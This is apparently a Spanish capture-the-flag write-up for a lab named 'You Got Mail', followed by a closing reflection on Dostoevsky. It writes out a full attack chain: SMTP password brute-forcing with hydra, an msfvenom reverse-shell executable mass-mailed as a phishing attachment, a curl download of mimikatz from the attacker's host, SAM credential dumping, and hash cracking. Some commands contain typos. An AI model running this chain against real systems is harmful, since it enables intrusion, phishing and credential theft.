




# You Got Mail

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado varios puertos abiertos en el sistema: el puerto `25` para `SMTP` y los puertos `HTTP`, que son los más importantes para nosotros.

<figure><figcaption></figcaption></figure>

Accedemos a la página proporcionada al inicio del laboratorio, `https://brownbrick.co/`, y en el directorio `/menu.html` encontramos los correos de los usuarios. Los anotamos para utilizarlos más adelante.

<figure><figcaption></figcaption></figure>

```
oaurelius@brownbrick.co
tchikondi@brownbrick.co
wrohit@brownbrick.co
pcathrine@brownbrick.co
lhedvig@brownbrick.co
fstamatis@brownbrick.co
```

Podemos realizar una búsqueda e identificación de todas las palabras presentes en la web para convertirlas en contraseñas que podemos utilizar para verificar su uso en los correos que recolectamos anteriormente. Aunque la web indica que debemos emplear un reconocimiento estrictamente pasivo, este método no lo es; lo utilizamos únicamente para acelerar el proceso de recolección de datos.

```
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Ahora utilizamos `hydra` para probar todos los usuarios y contraseñas que recolectamos anteriormente.

```
hydra -L emails.txt -P passwords.txt <ip> smtp -s 578 -t 8
```

Recuerda ajustar los parámetros según tus necesidades y los recursos que tengas disponibles, ya que el proceso puede tardar dependiendo de la cantidad de datos recolectados.

<figure><figcaption></figcaption></figure>

Ahora, con un correo y una contraseña, podemos acceder al servicio de `SMTP` y enviar correos de `phishing`. Para ello, primero necesitamos crear un `payload` utilizando `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe
```

Obtendremos un archivo llamado `shell.exe`, el cual necesitamos enviar a todos los correos que recolectamos anteriormente, de esta manera podremos acceder al sistema.

Para enviar los correos, podemos utilizar el siguiente código:

```
xargs -I {} swaks --to "{}" --from "lhedvig@brownbrick.co" --header "Subject: Important documents" \
--body "see attached file" --attach-type application/octet-stream --attach @shell.exe \
--server ygm.thm --port 25 --timeout 20s --auth LOGIN \
--auth-user lhedvig@brownbrick.co --auth-password REDACTED < emails.txt
```

>*Nota: También puedes utilizar una aplicación de correo electrónico; solo necesitas configurarla para redirigir los mensajes a la IP del laboratorio y al puerto correspondiente. Una vez conectado, podrás crear correos más profesionales y auténticos.*

Iniciamos nuestro oyente y, después de un tiempo, obtendremos nuestra primera shell.

<figure><figcaption></figcaption></figure>

# \wrohit

Como el usuario `wrohiy`, tenemos nuestra primera bandera en `\Desktop`. 

Para obtener la contraseña, debemos utilizar `mimikatz` para la enumeración, así que lo descargamos en la máquina víctima.


```
curl http://<ip>:<port>/mimikatz.exe -o mimikatz.ex
```

Y simplemente lo ejecutamos con unas opciones específicas que son:

```
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

Debería proporcionarnos una salida extensa, pero solo necesitamos buscar el nombre `wrohit`, donde encontraremos un hash `NTLM`.

<figure><figcaption></figcaption></figure>

Podemos enviar este `hash` a un sitio web para descifrarlo, como el siguiente:



Esto debería proporcionarte la contraseña. Además, también podrías utilizar `hashcat`, que tarda un poco más, pero es un buen ejercicio para no depender de otras herramientas.

```
hashcat -a0 -m1000 'HASHNTLM' /usr/share/wordlists/rockyou.txt --show
```

>*Nota: Es importante tener en cuenta que las herramientas en línea pueden contar con un catálogo o una base de datos más extensa que las locales.*

# \hMail

Descubrir la contraseña de `hMail` fue tan sencillo como revisar los datos locales del servicio, que encontramos en:

```
C:\Program Files (x86)\hMailServer\Bin\
```

En el archivo `hMailServer.INI` podemos encontrar el hash en `MD5` del servicio al que necesitamos acceder.

```
type hMailServer.INI
```

Dado que está en `MD5`, es más fácil descifrar la contraseña. Para ello, podemos utilizar la misma web de antes o hacerlo con `hashcat`.



```
hashcat -a0 --m0 'HASHMD5' /usr/share/wordlists/rockyou.txtx --show
```

------------

>*Quiero hablar de todo con al menos una persona de la misma manera en que hablo conmigo mismo* 
>~ Dostoievski
>
>El ser humano alberga en su interior una multitud de voces, pero rara vez encuentra a alguien capaz de escuchar esa confusión sin emitir juicios. Vivimos rodeados de conocidos, pero en lo esencial, todos hablan de banalidades, mientras que pocos pueden soportar la desnudez de una confesión sincera. 
>
>No es el silencio lo que mata, sino la imposibilidad de ser completo ante otra persona. La verdadera amistad o amor no surge de lo que mostramos como hermoso, sino del coraje de abrir las profundidades del alma y seguir estando juntos.

><figure><figcaption></figcaption></figure>